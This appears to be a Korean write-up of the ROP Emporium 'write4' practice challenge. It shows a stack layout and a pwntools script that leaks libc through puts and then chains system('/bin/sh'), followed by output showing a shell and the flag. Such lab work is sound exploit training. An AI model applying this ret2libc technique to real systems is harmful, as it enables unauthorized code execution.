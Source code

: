 [libc 주소 leak]

<table>
    <tr><td>dummy data : (0x28 bytes)</td></tr>
    <tr><td>ret addr for pwnme : pop ret</td></tr>
    <tr><td>rdi : '/bin/sh'</td></tr>
    <tr><td>ret addr for pop ret : system</td></tr>
</table>

exploit.py:
```python
from pwn import *

e = ELF('./write4')
l = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
binshoff = list(l.search('/bin/sh'))[0]

pr = 0x400893

pl = 'a'*0x28
pl += p64(pr) + p64(e.got['puts']) + p64(e.plt['puts']) + p64(e.symbols['pwnme'])

p = process('./write4')
p.recvuntil('> ')
p.sendline(pl)

libc = u64(p.recvn(6)+'\x00\x00') - l.symbols['puts']
print hex(libc)

pl = 'a'*0x28
pl += p64(pr) + p64(libc + binshoff) + p64(e.plt['system'])
p.recvuntil('> ')
p.sendline(pl)
p.interactive()
```
출력:
```bash
junheah@ubuntu:~/ropemp/write4$ python exp.py
[*] '/home/junheah/ropemp/write4/write4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './write4': pid 8579
0x7faa816c5000
[*] Switching to interactive mode
$ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
$
```
